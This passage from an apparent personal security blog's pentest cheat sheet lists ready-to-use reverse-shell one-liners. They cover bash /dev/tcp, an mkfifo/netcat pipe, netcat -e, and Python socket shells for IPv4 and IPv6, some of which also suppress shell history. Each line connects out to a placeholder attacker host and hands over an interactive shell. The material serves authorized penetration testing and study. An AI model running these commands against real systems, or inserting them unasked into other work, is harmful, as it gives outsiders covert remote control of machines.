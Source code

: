  [**snovvcrash’s Security Blog**](https://snovvcrash.github.io)

[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)

* TOC
{:toc}





# Pentest




## Reverse Shells



### Bash

```
root@kali:$ bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
root@kali:$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```



### Netcat

```
root@kali:$ {nc.tradentional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```



### Python


#### IPv4

```
root@kali:$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()'
root@kali:$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()'
```


#### IPv6

```
root@kali:$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()'
root@kali:$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()'
```
